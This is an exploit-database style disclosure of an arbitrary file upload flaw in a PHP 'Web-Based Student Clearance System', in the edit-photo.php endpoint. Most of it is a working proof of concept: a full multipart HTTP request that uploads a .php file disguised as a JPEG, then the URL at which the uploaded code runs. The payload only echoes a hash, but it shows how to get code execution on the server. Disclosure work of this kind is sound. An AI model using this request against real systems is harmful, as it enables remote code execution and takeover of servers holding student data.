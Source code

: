### Web-Based Student Clearance System - Arbitrary File Upload

### Date: 2024-02/26
### Exploit Author: xiahao@webray.com.cn
### Vendor Homepage: https://www.sourcecodester.com
### Software Link: https://www.sourcecodester.com/php/15627/web-based-student-clearance-system.html
### Tested on: MacOs13.5 + phpstudy

# /edit-photo.php（Arbitrary File Upload）

### 1,login System

![blockchain](https://github.com/xiahao90/CVEproject/blob/main/imgs/1708932334103.jpg "Web-Based Student Clearance System")

### 2,edit photo Sample request POC #1

```
POST /edit-photo.php HTTP/1.1
Host: 127.0.0.1:8889
Content-Length: 309
Cache-Control: max-age=0
sec-ch-ua: "Chromium";v="103", ".Not/A)Brand";v="99"
sec-ch-ua-mobile: ?0
sec-ch-ua-platform: "macOS"
Upgrade-Insecure-Requests: 1
Origin: http://127.0.0.1:8889
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryg5TBlypbgZwnRdxp
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/103.0.5060.134 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Referer: http://127.0.0.1:8889/edit-photo.php
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: PHPSESSID=b79eb3fij4s19ggvqglf3v59te; __insuarance__logged=1; __insuarance__key=LJNT16FPPDNJD0PJG1Z8
Connection: close

------WebKitFormBoundaryg5TBlypbgZwnRdxp
Content-Disposition: form-data; name="userImage"; filename="1708927196358.php"
Content-Type: image/jpeg

<?php echo md5(1);?>
------WebKitFormBoundaryg5TBlypbgZwnRdxp
Content-Disposition: form-data; name="btnedit"


------WebKitFormBoundaryg5TBlypbgZwnRdxp--

```

### 3,Accessing avatars
```
http://127.0.0.1:8889/uploads/1708927196358.php
```
![blockchain](https://github.com/xiahao90/CVEproject/blob/main/imgs/1708932508546.jpg "Web-Based Student Clearance System")

